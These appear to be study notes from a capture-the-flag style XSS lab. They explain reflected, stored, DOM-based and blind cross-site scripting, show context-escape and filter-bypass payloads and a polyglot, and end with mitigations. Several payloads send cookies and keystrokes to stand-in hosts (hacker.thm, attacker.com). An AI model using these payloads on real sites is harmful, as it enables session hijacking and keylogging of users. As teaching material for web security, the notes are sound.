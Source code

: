Cross-Site Scriptinng is an injection attack where malicious JavaScript gets injected into a webapp and gets executed.

## XSS Payloads
A payload is the JavaScript code executed on the victim’s browser. Every payload consists of two elements:
- **Intention** – What the payload should do (e.g., alert box, cookie theft)
- **Modification** – Adjustments to ensure execution in different contexts
### Common Payload Intentions
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
#### Proof of Concept

```html
<script>alert('XSS');</script>
```

#### Session Stealing

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

#### Keylogger

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key)); }</script>
```

#### Business Logic Abuse

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

---
## Types of XSS

### Reflected XSS
- Occurs when user input in a request is reflected in the response without validation.
- Example: `?error=<script>alert('XSS')</script>`

**Testing:**  
Check reflection points in:
- URL query parameters
- File paths
- (Sometimes) HTTP headers

**Impact:**  
Attackers can craft malicious links that, when clicked by victims, execute arbitrary scripts.

---
### Stored XSS
- Payload is stored on the web application (e.g., in a database) and later executed for other users.
- Common locations: blog comments, profile fields, product listings

**Example:**

```html
<script>alert('XSS')</script>
```

**Impact:**  
Malicious code executes every time users view the affected content.

**Testing Tips:**
- Bypass frontend-only restrictions (e.g., change a dropdown field value to a script via manual request)    

---
### DOM-Based XSS

- Vulnerability exists in client-side JavaScript, not backend.
- Triggered via DOM manipulation using attacker-controlled input.

**Example:**

```js
document.getElementById("output").innerHTML = window.location.hash;
```

Payload: `https://site/#<script>alert(1)</script>`

**Impact:**  
Can lead to content injection, redirection, session theft.

**Testing:**
- Look for unsanitized use of:
    - `window.location`
    - `document.referrer`
    - `document.write()`
    - `eval()`        

---
### Blind XSS
- Like stored XSS, but the attacker cannot see the result directly.
- Payload is triggered in a different context (e.g., admin portal, staff ticket viewer).

**Example:**  
Support form accepts input:

```html
<script>fetch('https://attacker.com?c=' + document.cookie);</script>
```

**Impact:**  
Leaks sensitive staff session data or portal content.

**Testing Tools:**
- [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)    
---
## Perfecting  a payload

### Level 1 – Reflected in raw HTML

Payload:

```html
<script>alert('THM');</script>
```

### Level 2 – Reflected in input `value=""` attribute

Payload to escape the input value:

```html
"><script>alert('THM');</script>
```

### Level 3 – Reflected in `<textarea>`

Payload to escape out of the textarea:

```html
</textarea><script>alert('THM');</script>
```

### Level 4 – Injected inside a JavaScript block
``` HTML
<script>
	document.getElementsByClassName('name')[0].innerHTML='David';
</script>
```

Payload to escape the innerHTML in JS:

```js
';alert('THM');// 
```

### Level 5 – Filter removes the word `script`
``` HTML
<h2>   Hello, <>alert('THM');</>  </h2>
```
Bypass filter with:

```html
<sscriptcript>alert('THM');</sscriptcript>
```

After filter → becomes:

```html
<script>alert('THM');</script>
```

### Level 6 – Reflected in an `img` tag, angle brackets filtered
 
 The < and > characters get filtered out from our payload, preventing us from escaping the IMG tag.
 
Payload was: `/images/cat.jpg" onmouseover=alert(1)` resulted in:
``` HTML 
<img src="/images/cat.jpg" onload="alert(1)&quot;">
```
Bypass with:
```html
/images/cat.jpg" onload="alert(1)
```

---

## XSS Polyglot

An XSS polyglot can bypass filters, escape contexts, and trigger execution across many different scenarios.

Polyglot Payload:

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

---

## Mitigation Strategies

- Escape special HTML characters (`<`, `>`, `"`, `'`, `&`)
    
- Apply strict **Content-Security-Policy (CSP)**
    
- Sanitize and validate all user input on the **server-side**
    
- Avoid using `innerHTML`, `eval()`, or `document.write()` with untrusted data
    
- Use frameworks that automatically prevent XSS (e.g., React, Angular)
    



